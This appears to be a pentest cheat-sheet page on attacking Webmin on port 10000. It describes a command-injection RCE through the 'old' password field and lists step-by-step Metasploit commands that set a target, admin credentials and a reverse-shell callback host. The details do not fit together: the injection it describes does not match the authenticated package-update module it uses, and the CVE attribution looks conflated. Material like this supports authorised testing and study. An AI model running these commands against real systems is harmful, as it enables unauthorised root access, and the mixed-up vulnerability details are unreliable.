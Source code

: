 # 10000 - Webmin

Webmin is a **web-based system administration interface** for Unix-like systems, typically running on port `10000` by default. It allows administrators to manage various aspects of a system—such as users, services, packages, and configuration files—entirely through a browser, without needing to use the terminal or SSH.

## RCE

[CVE-2019-9624](https://nvd.nist.gov/vuln/detail/cve-2019-9624) is a RCE in Webmin versions prior to `1.910`. It specifically affects installations where the `old password` option is enabled for password changes. In vulnerable versions, if a user submits a password change request, Webmin checks the old password—but only if the `old password` option is enabled in the configuration. Due to improper input handling, attackers could craft a request to inject OS commands through the `old` password field. These commands would then be executed with the privileges of the Webmin process (often `root`).

MSF's [`webmin_packageup_rce`](https://www.rapid7.com/db/modules/exploit/linux/http/webmin_packageup_rce/) module can be used:

{% code overflow="wrap" %}
```bash
msf6 > use exploit/linux/http/webmin_packageup_rce
msf6 exploit(linux/http/webmin_packageup_rce) > set password Password6543
msf6 exploit(linux/http/webmin_packageup_rce) > set username admin
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts 172.16.1.1
msf6 exploit(linux/http/webmin_packageup_rce) > set rport 10000
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
msf6 exploit(linux/http/webmin_packageup_rce) > run
```
{% endcode %}
